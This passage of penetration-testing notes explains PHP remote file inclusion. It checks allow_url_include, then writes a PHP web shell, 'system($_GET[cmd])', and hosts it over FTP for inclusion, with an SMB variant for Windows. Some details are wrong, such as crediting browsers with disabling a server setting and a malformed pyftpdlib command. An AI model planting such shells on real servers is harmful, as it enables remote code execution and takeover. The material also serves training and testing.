 So, almost every RFI is an LFI.

But, an LFI not alwasy is RFI, because:
- The function may not allow including remote URLs
- You control a portion of the filename and not the entire protocol wrapper (http://, https://, ftp://)
- Configuration prevents RFI - Modern web browsers disable it by default.

### Verify RFI

Since this setting is usually disabled by default, in PHP any remote URL inclusion requires `allow_url_include` enabled.

Checking whether it is enabled via:

```sh
echo '_base64-encoded-config_' | base64 -d | grep allow_url_include
```

may not be always reliable, because even if the setting is enabled, it may not allow remote URL inclusion.

A more reliable way is to `try and include a URL` and check if we can get the content.

First - try to include a local URL to check that our attempt is not blocked by a *firewall*.

`http://server:port/index.php?language=http://127.0.0.1:80/index.php`

If the code is executed it means that we can also execute a malicious file.

### RCE with RFI

First step - create a malicious script.

```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now host the script and include it through RFI.

A good idea to listen on a common HTTP port (80, 443), as they may be whitelisted in the case of a firewall.

#### Host it in FTP

We can use `pyftpdlib`:

```sh
sudo python -m -m pyftpdlib -p 21
```
This can be used if http ports are blocked.

#### SMB

If the web app is hosted on Windows (can be told from the server version in the HTTP response headers) - we don't need the `allow_url_include` enabled.

We can use the SMB protocol for the RFI, as Windows treats files on remote SMB servers as normal files, and can be referenced directly with a UNC path.
